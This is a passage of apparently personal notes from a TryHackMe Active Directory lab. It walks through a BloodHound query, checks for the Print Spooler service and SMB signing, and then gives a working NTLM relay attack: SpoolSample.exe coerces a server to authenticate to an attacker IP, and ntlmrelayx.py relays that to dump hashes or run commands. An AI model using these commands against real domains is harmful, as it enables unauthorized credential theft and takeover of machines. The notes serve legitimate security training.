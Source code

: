 We will search for machine with administrative access over another machine using Bloodhound, first click the "Create Custom Query" in the Analysis tab.

Write the query `MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p` which will attempt to find instances where a machine has the AdminTo relationship over another computer, lets say THMSERVER2 has administrative privileges over THMSERVER1.

##### The Printer Bug

The Printer Bug is a "feature" of the MS-RPRN Protocol (PrintSystem Remote Protocol) which allows a domain user to force a target host running the Print Spooler Service to authenticate to an arbitrary IP address, these bugs also found in PetitPotam, PrintNightmare and maybe more, it also didn't require AD credentials but it's been patched.

To exploit this we also need those 4 conditions in addition to the machine account administrative privileges:

1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler Service.
4. The hosts must not have SMB signing enforced.

##### Print Spooler Service

`GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc` - Use WMI to query the service's current state on the remote computer, to see if it's running.

If you're getting access denied error you can try running `Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`, if you still get it you might need to take a leap of faith.

##### SMB Signing

To relay the coerced authentication attempt SMB signing should not be enforced, it may be enabled (sometimes it is because of legacy systems that doesn't support it), by hosting our own malicious SMB server we can ensure our server does not support signing.

`nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc` - Verify both servers does not have SMB signing enforced.

##### Exploiting Authentication Relays

This attack can be unstable, since abusing the service can cause it to crash.

We will use [SpoolSample](https://github.com/leechristensen/SpoolSample) (a c# exploit) to coerce THMSERVER2 to authenticate to our machine and than impacket's [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication attempt to THMSERVER1.

`python3 ntlmrelayx.py -smb2support -t smb://"<thmserver1 ip" -debug` - Set up the NTLM relay on the attacking machine, using the IP address so the server won't force Kerberos authentication.
`SpoolSample.exe THMSERVER2.za.tryhackme.loc "<attacker ip>"` - Force THMSERVER2 to authenticate to us.

You should have now performed a hash dump, you can also had something like `-c 'whoami /all'` to the ntlmrelayx.py command to run commands
## Exploiting AD Users
